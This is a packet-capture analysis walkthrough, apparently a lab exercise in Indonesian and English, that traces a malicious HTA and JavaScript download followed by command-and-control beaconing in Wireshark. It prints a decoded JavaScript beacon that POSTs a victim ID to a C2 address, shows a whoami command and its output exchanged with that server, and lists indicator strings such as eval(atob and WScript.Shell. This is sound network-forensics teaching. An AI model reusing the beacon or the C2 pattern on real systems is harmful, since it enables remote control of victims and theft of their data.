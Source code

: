 langkah-Langkah Cek di wireshark :

		1.	ip.src == 192.168.1.50 && ip.dst == 198.51.100.20 && http
		2.	TCP streams (right-click → Follow → TCP Stream) dan simpan body (Save as).
		3.	Extract Hta/Js : Menu File → Export Objects → HTTP → cari entry /malicious.hta dan /payload.js → Save.
					 ika JS berisi eval(atob('...')) → copy base64 string → decode:
		4.	Periksa C2 POST bodies: 
						ip.addr==192.168.1.50 && ip.addr==198.51.100.30 && http.request.method == "POST"
			Follow TCP Stream untuk melihat form body (beacon_id=..., output=...) dan server responses.
		5.	Analisa Out-Of-Order:
						Pilih packet 16 → Packet Details → TCP → lihat Seq/Ack.
						Gunakan Analyze → Expert Information untuk melihat apakah Wireshark menandai 
								  Retransmission/Out-of-Order/Duplicate ACK.						 


1	0.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [SYN] Seq=0 Win=8192 Len=0.
		Artinya	: Host 192.168.1.50 memulai koneksi TCP ke port 80 pada server 198.51.100.20. Flag = SYN (synchronise) berarti awal handshake.

2	1.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0.

		Artinya	: Server menjawab SYN+ACK — part kedua dari 3-way handshake. Ack=1 berarti mengakui SYN (seq+1).

3	2.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0.
		Artinya	: Client menyelesaikan handshake dengan ACK. Sekarang koneksi terbuka,
			  Selanjutnya HTTP akan lewat koneksi ini (socket 192.168.1.50:51000 ↔ 198.51.100.20:80).

4	3.000000	192.168.1.50	198.51.100.20	HTTP	132	GET /malicious.hta HTTP/1.1 .
		Artinya	: HTTP request GET. Panjang 132 bytes (ini ukuran frame pada capture).
			      Biasanya berisi header: GET /malicious.hta HTTP/1.1, Host: ..., User-Agent, Accept, dll.

		Action	: 1. Expand Hypertext Transfer Protocol di Packet Details → lihat Request Method, Request URI, Host, User-Agent.
			      2. Catat User-Agent (apakah browser atau mshta/wscript?). mshta user-agent bisa menandakan HTA dieksekusi dengan mshta.exe.
			      3. Catat Referer, cookies, any query params.

5	4.000000	198.51.100.20	192.168.1.50	HTTP	545	HTTP/1.1 200 OK  (application/hta)
		Artinya	: Server menjawab dengan HTTP/1.1 200 OK; Content-Type application/hta. Ukuran frame 545 bytes — pasti mengandung body (HTA content).
		
		Action	: 1. Di Packet Details: expand HTTP → lihat header Content-Type, Content-Length, Server, Cache-Control, Last-Modified.
			      2. Follow → TCP Stream pada koneksi ini untuk mengekstrak body HTA. Simpan body (File → Export Objects → HTTP) untuk analisis offline.
			      3. Di body HTA cari: <script> tags, eval(atob(, WScript.Shell, CreateObject("Wscript.Shell"), pemanggilan mshta inline, atau referensi ke payload.js.

6	5.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim membuka koneksi TCP baru (ephemeral port 51001) ke server:80. Ini tipikal saat browser/mshta membuat koneksi lain u/ memfetch resource (mis. /payload.js).
		
		Action	: apakah ada pipelining/keep-alive vs koneksi baru; jika server tidak mendukung keep-alive atau mshta requests made in separate sockets.

7	6.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51001 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
8	7.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya	: Handshake Complete

9	8.000000	192.168.1.50	198.51.100.20	HTTP	127	GET /payload.js HTTP/1.1 
		Artinya	: Victim requests JavaScript resource payload.js. Ukuran 127 bytes (header only).

		Action	: sama seperti paket 4 — lihat Host, User-Agent (mshta?), Accept, referer (mengarah ke /malicious.hta), Connection: keep-alive etc.
10	9.000000	198.51.100.20	192.168.1.50	HTTP	428	HTTP/1.1 200 OK  (application/javascript)
		Artinya	: Server returns JS body (Content-Type application/javascript). Body akan mengandung
			  obfuscated JS (mis. eval(atob('<base64>'))) atau XHR routines. Ukuran cukup besar (428 bytes) ->
			  
		Action	: 1. Follow → TCP Stream (for the 51001↔80 stream) and extract payload.js.
			      2. Jika JS contains eval(atob('...')), salin base64 and decode.
			      3. Cari in decoded JS: XHR/fetch calls to C2 (/c2), beacon ids, user-agent spoofing, timing/interval functions.
			      4. hasil decode "function beacon(){var xhr=new XMLHttpRequest();xhr.open('POST','http://198.51.100.30/c2',false);
					   xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('beacon_id=abc123');}
					   beacon();"	

11	10.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim sekarang membuka konkesi ke C2 server 198.51.100.30 melalui port 80 (new handshake). di triggered oleh payload.js (beacon).

		Action	: cek DNS resolution untuk 198.51.100.30 earlier? (Check DNS queries di pcap). jika C2 menggunakan domain, note mapping. 
			  cek juga TTL and MACs.

12	11.000000	198.51.100.30	192.168.1.50	TCP	54	80 → 52000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: server replies SYN+ACK.

13	12.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya : Connection established to C2. Now application data (HTTP POST) will follow.

14	13.000000	192.168.1.50	198.51.100.30	HTTP	186	POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
		Artinya	: Victim posts data ke /c2. Payload type urlencoded — likely beacon_id=abc123 atau yang mirip. Size 186 bytes includes headers + body.

		Action	: 1. Follow → TCP Stream for this TCP connection and view the POST body. Di Wireshark, 
			         expand HTTP → check Line-based text data for POST body.
			      2. Catat Host header (controller.example?), User-Agent, Referer (bisa jadi original HTA host), Content-Length.
			      3. save the POST body (it may contain victim id, OS info, or other metadata). This is direct C2 communication.

15	14.000000	198.51.100.30	192.168.1.50	HTTP	124	HTTP/1.1 200 OK  (text/plain)
		Artinya	: C2 merespon dengan plaintext body — contoh seperti whoami. Size 124 bytes termasuk headers & body.
		
		Action	: Follow TCP stream u/ lihat detail. 
			      Jika detail terdapat whoami, ini adalah perintah agar dapat di eksekusi oleh JS (synchronous XHR).	
				whoami
				output=DOMAIN%5Cvictim_user
				HTTP/1.1 200 OK
				Content-Length: 2

16	15.000000	192.168.1.50	198.51.100.30	HTTP	197	[TCP Out-Of-Order] POST /c2 HTTP/1.1  (application/x-www-form-urlencoded).
		Artiya	: 
			1. TCP Out-Of-Order di Wireshark berarti Wireshark menerima paket dengan sequence number yang
			     tidak cocok dengan yang diharapkannya sekarang — contoh: Wireshark sudah menerima paket
			     dengan seq N+X, lalu menerima paket dengan seq N (lebih kecil), atau paket tiba lebih lambat
			     sehingga urutan capture berbeda dari urutan transmisinya. Penyebab umum:
			     a. Paket retransmission dari host karena ACK hilang.
			     b. Jaringan mengalami reordering (multi-path routing).
			     c. Duplikasi atau capture artifact (capture point sees packets via two interfaces).	

			 2. Paket 16 adalah POST lagi (kemungkinan berisi output dari eksekusi perintah whoami,
			    atau POST kedua dengan hasil). Karena ada POST sebelumnya (paket 14), paket 16 bisa:
			    a. retransmit dari victim karena ACK sebelumnya belum diterima/sampai; atau
			    b. permintaan baru yang dikirim segera setelah menerima command; namun label Out-Of-Order menunjukkan seq/ack tidak runtun menurut Wireshark.

17	16.000000	198.51.100.30	192.168.1.50	HTTP	94	HTTP/1.1 200 OK 
		Artinya	: C2 mengakui POST terakhir; final 200 OK
			  Cek Body u/ konfirmasi OK.

